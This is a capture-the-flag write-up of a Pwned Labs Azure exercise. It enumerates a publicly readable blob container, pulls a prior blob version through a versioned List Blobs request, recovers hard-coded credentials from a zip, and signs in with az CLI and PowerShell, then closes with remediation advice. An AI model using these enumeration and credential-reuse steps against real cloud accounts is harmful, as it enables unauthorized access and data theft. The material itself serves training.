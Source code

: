 ```yaml
---
title: Azure Blob Container to Initial Access
description: Azure Blob Container to Initial Access
image:
  path: azure.png
categories:
- Pwned Labs
- Azure
layout: post
media_subpath: /assets/posts/labs/pwnedlabs/azure/
tags:
- pwnedlabs
- azure
- cloud
---
```

# Scenario

Mega Big Tech have adopted a hybrid cloud architecture and continues to use a local on-premise Active Directory domain, as well as the Azure cloud. They are wary of being targeted due to their importance in the tech world, and have asked your team to assess the security of their infrastructure, including cloud services. An interesting URL has been found in some public documentation, and you are tasked with assessing it.

## Walkthrough
We are given URL: `http://dev.megabigtech.com/$web/index.html`. Let's check the content. It seems like it's a static page.

![](azure-blob-container-to-initial-access-1.png)

The page includes static files from [Azure Blob Storage](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction), which is Microsoft's object storage solution for the cloud. This can be confirmed by [endpoint format](https://cloud.hacktricks.wiki/en/pentesting-cloud/azure-security/az-services/az-storage.html#storage-endpoints)

![](azure-blob-container-to-initial-access-2.png)

We can also try accessing `https://mbtwebsite.blob.core.windows.net/$web/index.html` to confirm that site is hosted on Azure Blob Storage. This can also be confirmed via `curl` (`Server: Blob Service Version 1.0 Microsoft-HTTPAPI/2.0` header) or `Invoke-WebRequest` (`x-ms-blob-type: BlockBlob` header)
```
└─$ curl -I https://mbtwebsite.blob.core.windows.net/$web/index.html                                                       
HTTP/1.1 400 One of the request inputs is out of range.
Transfer-Encoding: chunked
Server: Blob Service Version 1.0 Microsoft-HTTPAPI/2.0
x-ms-request-id: 2132b9e2-801e-0010-2870-058957000000
Date: Mon, 04 Aug 2025 18:49:27 GMT
```
```
└─PS> Invoke-WebRequest -Uri 'https://mbtwebsite.blob.core.windows.net/$web/index.html' -Method Head | Select-Object -ExpandProperty Headers
                                                                                                                        
Key               Value
---               -----
ETag              {0x8DBD1A84E6455C0}
Server            {Windows-Azure-Blob/1.0, Microsoft-HTTPAPI/2.0}
x-ms-request-id   {01973c31-b01e-0024-2470-05ba9f000000}
x-ms-version      {2009-09-19}
x-ms-lease-status {unlocked}
x-ms-blob-type    {BlockBlob}
Date              {Mon, 04 Aug 2025 18:50:06 GMT}
Content-Length    {782359}
Content-Type      {text/html}
Content-MD5       {JSe+sM+pXGAEFInxDgv4CA==}
Last-Modified     {Fri, 20 Oct 2023 20:08:20 GMT}
```

We can continue examining Azure Blob Storage. It [consists of several parts](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction#blob-storage-resources)

![](azure-blob-container-to-initial-access-3.png)

Based on [Microsoft documentation](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction#blob-storage-resources), we can digest `https://mbtwebsite.blob.core.windows.net/$web/index.html`

- `https`: Protocol
- `mbtwebsite`: [Storage account name](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction#storage-accounts)
- `blob.core.windows.net`: [Azure Storage service endpoint](https://learn.microsoft.com/en-us/azure/storage/common/storage-account-overview?toc=%2Fazure%2Fstorage%2Fblobs%2Ftoc.json&bc=%2Fazure%2Fstorage%2Fblobs%2Fbreadcrumb%2Ftoc.json#standard-endpoints)
- `$web`: [Container name](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction#containers)
- `index.html`: file requested

We can use the following [documentation](https://learn.microsoft.com/en-us/rest/api/storageservices/list-blobs?tabs=microsoft-entra-id) to enumerate Azure Blob Storage. 

Let's list the blobs and directories
```
https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list
```
```
https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list&delimiter=%2F
```

![](azure-blob-container-to-initial-access-4.png)

Nothing interesting, but we can try checking for [blob versioning](https://learn.microsoft.com/en-us/azure/storage/blobs/versioning-overview), which is maintains previous versions of a blob.
```
https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list&include=versions
```
If we try checking for versions, we get an error. It seems like based on [documentation](https://learn.microsoft.com/en-us/rest/api/storageservices/list-blobs?tabs=microsoft-entra-id#uri-parameters) `include=versions` parameter is supported by version `2019-12-12` 

![](azure-blob-container-to-initial-access-5.png)

We can specify it by setting the `x-ms-version` header
```
curl -H "x-ms-version: 2019-12-12" 'https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list&include=versions' | xmllint --format - | less
```

We find blob `scripts-transfer.zip` and the version ID that we can use to download

![](azure-blob-container-to-initial-access-6.png)

```
└─$ curl -H "x-ms-version: 2019-12-12" 'https://mbtwebsite.blob.core.windows.net/$web/scripts-transfer.zip?versionId=2025-02-18T00:29:19.3854225Z' --output scripts-transfer.zip
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1606  100  1606    0     0   1945      0 --:--:-- --:--:-- --:--:--  1944
```

Content of the zip archive
```
└─$ unzip scripts-transfer.zip             
Archive:  scripts-transfer.zip
  inflating: entra_users.ps1         
  inflating: stale_computer_accounts.ps1
```

Inside we find credentials

![](azure-blob-container-to-initial-access-7.png)

We can try both credentials, but only `marcus@megabigtech.com` works
```
└─$ az login -u marcus@megabigtech.com -p '<REDACTED>'   
Starting September 1, 2025, MFA will be gradually enforced for Azure public cloud. The authentication with username and password in the command line is not supported with MFA. Consider using one of the compatible authentication methods. For more details, see https://go.microsoft.com/fwlink/?linkid=2276314                                                                                                                                                                      
[
  {
    "cloudName": "AzureCloud",
    "homeTenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "id": "ceff06cb-e29d-4486-a3ae-eaaec5689f94",
    "isDefault": true,
    "managedByTenants": [],
    "name": "Microsoft Azure Sponsorship",
    "state": "Enabled",
    "tenantDefaultDomain": "megabigtech.com",
    "tenantDisplayName": "Default Directory",
    "tenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "user": {
      "name": "marcus@megabigtech.com",
      "type": "user"
    }
  }
]
```
```
$Username = "marcus@megabigtech.com"
$Password = "<REDACTED>" | ConvertTo-SecureString -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential ($Username, $Password)
Connect-AzAccount -Credential $Credential
```

To get the flag
```
└─$ az ad signed-in-user show
{
  "@odata.context": "https://graph.microsoft.com/v1.0/$metadata#users/$entity",
  "businessPhones": [],
  "displayName": "Marcus Hutch",
  "givenName": "Marcus",
  "id": "41c178d3-c246-4c00-98f0-8113bd631676",
  "jobTitle": "Flag: <REDACTED>",
  "mail": null,
  "mobilePhone": null,
  "officeLocation": null,
  "preferredLanguage": null,
  "surname": "Hutch",
  "userPrincipalName": "marcus@megabigtech.com"
}
```
```
Get-AzADUser -SignedIn | fl
```

## Remediation
This section is from [Walkthrough section](https://pwnedlabs.io/labs/azure-blob-container-to-initial-access) of the lab.

The entire blob container is accessible by anonymous users and world-readable, when just the website files should have been configured to be publicly accessible.

![](azure-blob-container-to-initial-access-8.png)

This means that a previous version of a sensitive file was also publicly discoverable and readable. To mitigate this issue, the previous version should be deleted.

![](azure-blob-container-to-initial-access-9.png)

To do it via Azure CLI, the following command could be used after setting the storage account context with `Set-AzCurrentStorageAccount`
```
Remove-AzStorageBlob -Container '$web' -Blob scripts-transfer.zip -VersionId "2024-03-29T20:55:40.8265593Z"
```

Moreover, it's not recommended to hard-code credentials in scripts. Credentials should be stored in a PAM (Privileged Access Management) system, password manager or using a service such as Azure Key Vault. Key Vault allows you to securely store and access keys, passwords, certificates, and other secrets. 

Check other [community walkthroughs](https://youtu.be/L0eM8RCqJV0)
